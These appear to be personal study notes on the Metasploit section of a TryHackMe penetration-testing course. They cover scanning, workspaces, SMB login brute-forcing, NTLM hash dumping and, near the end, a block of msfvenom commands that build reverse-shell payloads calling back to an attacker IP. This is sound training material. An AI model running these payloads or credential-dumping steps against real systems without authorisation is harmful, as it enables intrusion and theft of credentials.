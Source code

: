 # TryHackMe: Jr. Penetration Tester

author:: Nathan Acks  
date:: 2022-04-14

# Exploitation with Metasploit

## Scanning

Use `search portscan` to display built-in Metasploit port scanners. Note that `msfconsole` needs to be run as root for many scans to work - just like Nmap. That said, in my experience the fancier TCP scans (for example, SYN) don't work over a VPN... So maybe best to stick with Nmap.

Speaking of which, Nmap can also be called internally (like other shell commands).

The `auxiliary/scanner/discovery/udp_sweep` module will probe for common UDP services.

Metasploit has a variety of Samba/CIFS scanners too; use `search scanner/smb` to list them.

NetBIOS = Network Basic Input/Output System

TryHackMe emphasizes the importance of examining the usage of NetBIOS for potential vulnerabilities, though it's a bit light on specifics about what this means in practice.

Use `show advanced` to show additional module options.

The `auxiliary/scanner/http/http_version` module will give you HTTP server version information.

The `auxiliary/scanner/smb/smb_login` module will allow you to bruteforce Samba logins (username and/or password) using a wordlist(s).

* [Using "nmap"](../notes/nmap.md)
* [SAMBA (a.k.a. CIFS) Protocol](../notes/samba.md)
* [TCP SYN Port Scanner - Metasploit](https://www.infosecmatter.com/metasploit-module-library/?mm=auxiliary/scanner/portscan/syn)

## The Metasploit Database

Get basic database status using `db_status`.

Create and delete workspaces (engagements) with `workspace`; use `-a` to add and `-d` to delete. Switch between workspaces using `workspace $NAME`.

Use `db_nmap` to run Nmap (all of the regular options work) and dump the results into the Metasploit database.

The `hosts` and `services` commands can then be used to display the, well, hosts and services logged by Metasploit during an engagement. Both commands support an `-S` search parameter, the results of which can then be added to `RHOSTS` using the `-R` parameter.

## Exploitation

Show the payloads available for a particular exploit using `show payloads`. Use `set payload` to set the payload for the exploit; re-run `show options` after this to check if the payload has added any additional options that will need to be set before exploitation.

To dump NTLM hashes from Meterpreter, use the `hashdump` command. Normally only the first four fields are relevant:

* Username
* RID (the last four digits of the Windows SID, with leading zeros dropped)
* The user's LM password hash
* The user's NTLM password hash

Use `sessions` to, well, manage your sessions (most useful when you've backgrounded a payload and/or are working with multiple targets).

* [Dumping Windows Password Hashes Using Metasploit](https://www.utc.edu/sites/default/files/2021-04/4660-lab6.pdf)
* [Windows Password Hashes](../notes/windows-password-hashes.md)

## Msfvenom

Msfvenom is a tool to create custom versions of Metasploit payloads, encoded into a variety of different binary formats and scripts.

Use `--list formats` to see available encoding formats.

```bash
# 32-bit Linux ELF Meterpreter payload
#
msfvenom -p linux/x86/meterpreter/reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f elf > rev_shell

# 32-bit Windows executable Meterpreter payload
#
msfvenom -p windows/meterpreter/reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f exe > rev_shell.exe

# PHP Meterpreter payload
#
msfvenom -p php/meterpreter_reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f raw > rev_shell.php

# ASP Meterpreter payload
#
msfvenom -p windows/meterpreter/reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f asp > rev_shell.asp

# Python Meterpreter payload
#
msfvenom -p cmd/unix/reverse_python \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f raw > rev_shell.py
```

Use the `exploit/multi/handler` module in Metasploit to catch the shells produced using Msfvenom (note that you'll need to use `set payload` to tell Metasploit *what* it's catching!). We can catch both regular reverse shells and Meterpreter sessions this way.
